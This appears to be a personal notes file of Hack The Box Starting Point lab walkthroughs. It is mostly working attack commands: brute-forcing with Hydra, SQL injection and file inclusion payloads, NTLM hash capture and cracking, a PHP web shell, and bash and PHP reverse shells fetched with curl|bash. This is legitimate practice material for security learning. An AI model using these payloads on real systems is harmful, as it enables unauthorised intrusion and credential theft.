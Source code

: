 # HTB Notes

## Starting Point Tier 0

Nmap basic list
`nmap -v1 -Pn 123.456.789.0`

SMB List Shares
`smbclient --list 10.129.49.171`

SMB List Folders
`smbmap -u root -p "" -H 10.129.49.171 -r`

SMB Folder Content
`smbmap -u root -p "" -H 10.129.49.171 -R WorkShares`

SMB Download files
`smbmap -u root -p "" -H 10.129.49.171 --download 'WorkShares\James.P\flag.txt'`

### Explosion

Unix RDP Connection
`xfreerdp /v:10.1.1.1 /u:administrator`

### Preignition

GoBuster find files / directories on Web Sever ending in PHP using Wordlist
`gobuster dir --url 10.129.38.239 --wordlist /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x php`

Hydra Login Form attack using HTTP Form Post
`hydra -l admin -P Passwords/2020-200_most_used_passwords.txt 10.129.116.45 http-post-form "/admin.php:username=^USER^&password=^PASS^:Wrong" -v`

### Mongod

Nmap scan all ports fast (does not work in nmapgui)
`nmap -p- --min-rate=1000 -sV {target_IP}`

MongoDB Shell Connect
`mongosh {target_IP}`

Mongo List Databases
`show databases`

Mongo Show Collection Content
`db.{collection_name}.find().pretty()`

### Synced

Rsync list shares
`rsync --list-only {target_IP}::`

Rsync copy file to local
`rsync 10.129.228.37::public/flag.txt ./flag.txt`

## Starting Point Tier 1

### Appointment

MySQL Injection Example Server query
`$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";`

Injection Attack
$username = admin
$password = ' OR 1=1 #
`$sql="SELECT * FROM users WHERE username='admin' AND password='' OR 1=1 #'";`

### Sequel
Mysql login broken / unable to login

### Crocodile
FTP Login
`ftp anonymous@{target_IP}`

FTP list / download
`ls` / `get`

### Responder
Web Server IP Redirection to URL, but URL inaccessible
echo "{target_IP} {target_URL}" >> /etc/hosts

Local File Inclusion
`http://unika.htb/index.php?page=FOOBAR`
No such file or directory in C:\xampp\htdocs\index.php
Access check at `http://unika.htb/index.php?page=../../../windows/system32/drivers/etc/hosts` successful
Or `http://unika.htb/index.php?page=../../../documents and settings/administrator/desktop/desktop.ini`

Using Responder to try and have webserver connect to us, proving NTLM Hash
`responder -I {network_interface}`
http://unika.htb/index.php?page=http://10.10.14.74
Answer: Warning: include(): http:// wrapper is disabled in the server configuration by allow_url_include=0 in C:\xampp\htdocs\index.php on line 11
Unable to include `http://` URLs

Run Gobuster with LFI List in Fuzz mode, trying to see which directories / files we can access
gobuster fuzz -w /usr/share/wordlists/seclists/Fuzzing/LFI/file_inclusion_windows.txt --url "http://unika.htb/index.php?page=" --exclude-length 0-700

Back to Responder:
Try to include File URL:
http://unika.htb/index.php?page=//10.10.14.74/file
Responder successfully captures Hash > hash.txt

Offline Crack NTLM hash using John the Ripper
John The Ripper available Hash Formats
`john --list=formats`
`john -w=/usr/share/wordlists/rockyou.txt --format=netntlmv2 ~/hash.txt`

With found Password and WinRM running, connect to target and grab flag
`evil-winrm -i 10.129.95.234 -u administrator -p badminton`

### Three
Subdomain Enumeration - DOES NOT WORK
Domain was added to /etc/hosts, so any DNS queries to that domain won't resolve
`gobuster dns --domain thetoppers.htb --wordlist /usr/share/wordlists/seclists/Discovery/DNS/combined_subdomains.txt --threads 128`
instead use GoBuster vhost mode
`gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb/ --threads 128 --append-domain`

Use AWS CLI to list S3 files using found S3 endpoint
`aws --endpoint http://s3.thetoppers.htb s3 ls`

Create PHP Reverse Shell and upload it to web server via S3
`<?php system($_GET["cmd"]); ?>`
Confirm Reverse Shell works
http://thetoppers.htb/?cmd=id
    More advanced Reverse Shell at
    https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_get_v2.php
    Or Interactive Reverse Shell at
    https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell-one-liner
    

Upgrade to Interactive Reverse Shell
    Or others
    https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp
Create file on local host > shell.sh
```bash
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
```

Serve file
`python -m http.server 8000`
Spawn Netcat to expect incoming connections
`nc -nvlp 1337`
Using Reverse Shell, get target to download and execute reverse Shell
`http://thetoppers.htb/?cmd=curl%2010.10.14.74:8000/shell.sh|bash`

Alternatively directly spawn reverse Shell from PHP:
```php
<?php
    // Start a listener on the attacker's machine
    $sock=fsockopen("attacker-ip", 4444);
    exec("/bin/sh -i <&3 >&3 2>&3");
?>
```

Once Connected using Netcat, upgrade to nicer interactive Shell
`python3 -c “import pty;pty.spawn(‘/bin/bash’)”`

### Ignition

Enumerate Subdirectories
`gobuster dir --url http://ignition.htb --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt`

Crack Login at Magento Login page
Couldn't get it to work
`hydra -l admin -P /usr/share/wordlists/seclists/Passwords/2020-200_most_used_passwords.txt ignition.htb http-post-form "/admin:username=^USER^&login=^PASS^:disabled" -v`

### Bike
Use `Wappalyzer` Chrome Extension to check used technologies
Using Hacktricks SSTI [Identificaton by Payload](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html#identification-by-payloads) find the correct Templating Engine
Enter `{{7*7}}` into input field to check for Server Side Template Injection
Using Burp Suite's Repeater and Decoder, take Hacktrick's Payload (URL Encoded) and submit it.
Keep massaging until code execution is achieved.


### Funnel
Nmap Scan, FTP Anonymous, Default Passwords, Hydra SSH + FTP, SSH Access. Local Postgresql db found via htop
List locally listening ports using `ss -tl` or without resolving names `ss -tln`
Port forward 5432 to attacker using 
`ssh -N -L [local_port]:localhost:[destination_port] [username]@[ssh_server]`
In this case: `ssh -N -L 5432:localhost:5432 christine@10.1.2.3`
Then start psql locally using `psql -h localhost -p 5432 --user christine`

    Could also have used Dynamic Port Forwarding (SOCKS5) using Proxychains (configurable at `/etc/proxychains4.conf`)

Within `psql`
`\l` list all tablespaces
`\c secrets` change to secrets database
`\d` list tables
`select * from flag;`

### Pennyworth
Does not work: `hydra -l admin -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100000.txt 10.129.197.213 -s 8080 http-post-form "/:j_username=^USER^&j_password=^PASS^:Invalid" -v`
Web Server's Anti-CSRF Protection triggers and doesn't accept Hydra's Input
Jenkins Web Interface allows executing arbitrary commands on host using Dashboard > Nodes > master > Script Console

### Tactics
Find Port 135 open (smb)
List all shares for Administrator (without password) using `smbclient -L 10.129.191.157 -U Administrator`
Using Impacket collection, use `impacket-smbexec Administrator@10.129.191.157` to gain shell


## Starting Point Tier 2